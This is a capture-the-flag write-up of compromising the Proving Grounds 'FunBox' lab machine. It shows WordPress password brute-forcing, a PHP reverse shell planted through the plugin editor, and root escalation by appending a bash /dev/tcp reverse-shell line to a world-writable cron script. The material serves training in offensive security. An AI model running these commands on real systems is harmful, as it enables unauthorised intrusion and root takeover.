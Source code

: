 ```yaml
---
layout: default
title: FunBox
parent: Proving Grounds Play
nav_order: 28
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.218.77
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-15 21:49 EST
Nmap scan report for 192.168.218.77
Host is up (0.059s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION                                                                         21/tcp    open  ftp     ProFTPD
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d2:f6:53:1b:5a:49:7d:74:8d:44:f5:46:e3:93:29:d3 (RSA)
|   256 a6:83:6f:1b:9c:da:b4:41:8c:29:f4:ef:33:4b:20:e0 (ECDSA)
|_  256 a6:5b:80:03:50:19:91:66:b6:c3:98:b8:c4:4f:5c:bd (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://funbox.fritz.box/
| http-robots.txt: 1 disallowed entry
|_/secret/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

# Enumeration

---

## 80 | HTTP

Wordpress site at _funbox.fritz.box_

### WPscan

```bash
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

Run WPScan brute force attack

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ wpscan --url http://funbox.fritz.box --disable-tls-checks -U users.txt -P /usr/share/wordlists/rocky
ou.txt

[+] Performing password attack on Wp Login against 2 user/s
[SUCCESS] - joe / 12345
[SUCCESS] - admin / iubire
Trying admin / violet Time: 00:00:18 <                          > (670 / 28689453)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire
```

Authenticate to Wordpress as with _admin:iubire_

# Exploitation

---

Attempting Hello Dolly plugin edit exploit.

![dolly1](../../../assets/images/ctfs/proving_grounds/funbox/dolly1.png)

Add the PHP reverse shell script and edit.

![dolly2](../../../assets/images/ctfs/proving_grounds/funbox/dolly2.png)

Activate the Hello Dolly plugin and get a reverse shell.

![dolly3](../../../assets/images/ctfs/proving_grounds/funbox/dolly3.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 49092
Linux funbox 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:14:29 up 28 min,  0 users,  load average: 0.00, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate wp-config.php File

```bash
www-data@funbox:/var/www/html$ cat wp-config.php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'wordpress');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

Only shows the users we already have access to.

Switch to Joe.

Enumerate user _funny_ home directory and locate a _.backup.sh_ that is creating a backup of _/var/www/html_ every 1 minute.

```bash
joe@funbox:/home/funny$ ls -la
ls -la
total 47592
drwxr-xr-x 3 funny funny     4096 Aug 21  2020 .
drwxr-xr-x 4 root  root      4096 Jun 19  2020 ..
-rwxrwxrwx 1 funny funny       55 Aug 21  2020 .backup.sh
lrwxrwxrwx 1 funny funny        9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 funny funny      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 funny funny     3771 Feb 25  2020 .bashrc
drwx------ 2 funny funny     4096 Jun 19  2020 .cache
-rw-rw-r-- 1 funny funny 48701440 Nov 16 03:36 html.tar
-rw-r--r-- 1 funny funny      807 Feb 25  2020 .profile
-rw-rw-r-- 1 funny funny      162 Jun 19  2020 .reminder.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html

```

_.backup.sh_ is world writeable so we can edit this script to give us a reverse shell as _root_ user.

```bash
joe@funbox:/home/funny$ echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1
```

After a couple minutes we get a reverse shell as _root_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 41312
bash: cannot set terminal process group (4896): Inappropriate ioctl for device
bash: no job control in this shell
root@funbox:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# whoami
whoami
root
root@funbox:~# cat /root/proof.txt
cat /root/proof.txt
3d96************************
```
